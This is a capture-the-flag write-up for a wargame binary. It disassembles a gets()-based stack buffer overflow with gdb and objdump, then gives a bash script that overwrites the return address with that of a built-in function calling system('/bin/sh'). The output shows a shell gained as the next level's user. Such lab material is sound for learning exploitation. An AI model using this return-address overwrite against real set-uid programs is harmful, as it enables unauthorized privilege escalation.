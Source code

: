 # level0

## Steps

### Dissassembly

To dissassemble the executable we can use gdb.
```sh
FUNCTION=main EXECUTABLE=./level1
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

The main function looks like this:
```nasm
Dump of assembler code for function main:
   0x08048480 <+0>:     55                push   ebp
   0x08048481 <+1>:     89 e5             mov    ebp,esp
   0x08048483 <+3>:     83 e4 f0          and    esp,0xfffffff0
   0x08048486 <+6>:     83 ec 50          sub    esp,0x50
   0x08048489 <+9>:     8d 44 24 10       lea    eax,[esp+0x10]
   0x0804848d <+13>:    89 04 24          mov    DWORD PTR [esp],eax
   0x08048490 <+16>:    e8 ab fe ff ff    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    c9                leave
   0x08048496 <+22>:    c3                ret
End of assembler dump.
```
This is a typical case of stack-buffer overflow. This means we can overwrite data preceding the buffer on the stack, notably the return pointer preceding the buffer on the stack.

| Address | Type          | Size |
|---------|---------------|------|
| 0       | char data[72] | 72   |
| 72      | *EBP          | 4    |
| 76      | *EIP          | 4    |

So let's see if we can exploit an existing function in the executable.

To list all functions we can use nm or objdump. Functions are located in the .text section:
```sh
objdump -M intel intel-mnemonic --disassemble ./level1
```

There is a function called `run`, which seams interesting:
```nasm
...
08048444 <run>:
 8048444:	55                   	push   ebp
 8048445:	89 e5                	mov    ebp,esp
 8048447:	83 ec 18             	sub    esp,0x18
 804844a:	a1 c0 97 04 08       	mov    eax,ds:0x80497c0
 804844f:	89 c2                	mov    edx,eax
 8048451:	b8 70 85 04 08       	mov    eax,0x8048570
 8048456:	89 54 24 0c          	mov    DWORD PTR [esp+0xc],edx
 804845a:	c7 44 24 08 13 00 00 	mov    DWORD PTR [esp+0x8],0x13
 8048461:	00
 8048462:	c7 44 24 04 01 00 00 	mov    DWORD PTR [esp+0x4],0x1
 8048469:	00
 804846a:	89 04 24             	mov    DWORD PTR [esp],eax
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	mov    DWORD PTR [esp],0x8048584
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave
 804847f:	c3                   	ret
...

```
We can see a call to system here:
```
8048472:	c7 04 24 84 85 04 08 	mov    DWORD PTR [esp],0x8048584
8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
```

The argument pushed on the stack is a string that is going to be executed with the level2 user's set-uid privileges.
Let's look at the string's content:
```sh
EXECUTABLE=level1
ADDRESS=0x8048584
gdb -batch -ex "x/s $ADDRESS" "$EXECUTABLE"
```

We can see that there already is all we need to gain the level2 user's privileges:
```
0x8048584:	 "/bin/sh"
```

All that is left to do is to craft an input string long enough to overflow the data array, and the base pointer `EBP` to be able to overwrite the return pointer `EIP`.

```bash
>> shellcode.sh cat << EOF
```
```bash
#!/usr/bin/env bash
PADDING=A # Fill the array and EBP values with 0x41
PADDING_LEN=76 # sizeof(data) + sizeof(*EBP)

RETURN_ADDRESS='08048444' # The address of the run function

printf "%.0s$PADDING" $(seq -s' ' "$PADDING_LEN")
<<< "$RETURN_ADDRESS" rev | dd conv=swab | xxd -r -p 
echo
```
```bash
EOF
chmod +x shellcode.sh
```

```sh
bash shellcode.sh | ./level1
```
```
Good... Wait what?
whoami
level2
```
